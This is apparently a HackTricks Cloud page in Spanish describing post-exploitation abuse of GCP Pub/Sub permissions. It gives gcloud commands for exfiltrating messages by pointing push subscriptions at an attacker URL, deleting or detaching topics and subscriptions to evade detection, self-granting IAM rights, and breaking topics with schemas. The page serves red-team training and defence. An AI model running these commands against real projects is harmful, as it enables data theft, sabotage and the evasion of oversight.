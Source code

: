 # GCP - Pub/Sub Post Explotación

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}

## Pub/Sub

Para más información sobre Pub/Sub consulta la siguiente página:

{% content-ref url="../gcp-services/gcp-pub-sub.md" %}
[gcp-pub-sub.md](../gcp-services/gcp-pub-sub.md)
{% endcontent-ref %}

### `pubsub.topics.publish`

Publica un mensaje en un tema, útil para **enviar datos inesperados** y activar funcionalidades inesperadas o explotar vulnerabilidades:
```bash
# Publish a message in a topic
gcloud pubsub topics publish <topic_name> --message "Hello!"
```
### `pubsub.topics.detachSubscription`

Útil para evitar que una suscripción reciba mensajes, tal vez para evitar la detección.
```bash
gcloud pubsub topics detach-subscription <FULL SUBSCRIPTION NAME>
```
### `pubsub.topics.delete`

Útil para evitar que una suscripción reciba mensajes, tal vez para evitar la detección.\
Es posible eliminar un tema incluso con suscripciones adjuntas a él.
```bash
gcloud pubsub topics delete <TOPIC NAME>
```
### `pubsub.topics.update`

Utiliza este permiso para actualizar alguna configuración del tema para interrumpirlo, como `--clear-schema-settings`, `--message-retention-duration`, `--message-storage-policy-allowed-regions`, `--schema`, `--schema-project`, `--topic-encryption-key`...

### `pubsub.topics.setIamPolicy`

Otórgate permiso para realizar cualquiera de los ataques anteriores.

### **`pubsub.subscriptions.create,`**`pubsub.topics.attachSubscription` , (`pubsub.subscriptions.consume`)

Obtén todos los mensajes en un servidor web:

{% code overflow="wrap" %}
```bash
# Crete push subscription and recieve all the messages instantly in your web server
gcloud pubsub subscriptions create <subscription name> --topic <topic name> --push-endpoint https://<URL to push to>
```
{% endcode %}

Crea una suscripción y úsala para **extraer mensajes**:
```bash
# This will retrive a non ACKed message (and won't ACK it)
gcloud pubsub subscriptions create <subscription name> --topic <topic_name>

# You also need pubsub.subscriptions.consume for this
gcloud pubsub subscriptions pull <FULL SUBSCRIPTION NAME>
## This command will wait for a message to be posted
```
### `pubsub.subscriptions.delete`

**Eliminar una suscripción** podría ser útil para interrumpir un sistema de procesamiento de registros o algo similar:
```bash
gcloud pubsub subscriptions delete <FULL SUBSCRIPTION NAME>
```
### `pubsub.subscriptions.update`

Utiliza este permiso para actualizar alguna configuración para que los mensajes se almacenen en un lugar al que puedas acceder (URL, tabla de Big Query, Bucket) o simplemente para interrumpirlo.

{% code overflow="wrap" %}
```bash
gcloud pubsub subscriptions update --push-endpoint <your URL> <subscription-name>
```
{% endcode %}

### `pubsub.subscriptions.setIamPolicy`

Otórgese los permisos necesarios para realizar cualquiera de los ataques comentados anteriormente.

### `pubsub.schemas.attach`, `pubsub.topics.update`,(`pubsub.schemas.create`)

Ataque un esquema a un tema para que los mensajes no lo cumplan y, por lo tanto, el tema se interrumpa.\
Si no hay esquemas, es posible que necesite crear uno.

{% code title="schema.json" %}
```json
{
"namespace": "com.example",
"type": "record",
"name": "Person",
"fields": [
{
"name": "name",
"type": "string"
},
{
"name": "age",
"type": "int"
}
]
}
```
{% endcode %}
```bash
# Attach new schema
gcloud pubsub topics update projects/<project-name>/topics/<topic-id> \
--schema=projects/<project-name>/schemas/<topic-id> \
--message-encoding=json
```
### `pubsub.schemas.delete`

Esto puede parecer que al eliminar un esquema podrás enviar mensajes que no cumplen con el esquema. Sin embargo, como el esquema será eliminado, ningún mensaje entrará realmente en el tema. Así que esto es **INÚTIL**:
```bash
gcloud pubsub schemas delete <SCHEMA NAME>
```
### `pubsub.schemas.setIamPolicy`

Otórgate los permisos necesarios para realizar cualquiera de los ataques comentados anteriormente.

### `pubsub.snapshots.create`, `pubsub.snapshots.seek`

Esto creará un snapshot de todos los mensajes no ACK y los devolverá a la suscripción. No es muy útil para un atacante, pero aquí está:
```bash
gcloud pubsub snapshots create YOUR_SNAPSHOT_NAME \
--subscription=YOUR_SUBSCRIPTION_NAME
gcloud pubsub subscriptions seek YOUR_SUBSCRIPTION_NAME \
--snapshot=YOUR_SNAPSHOT_NAME
```
{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}
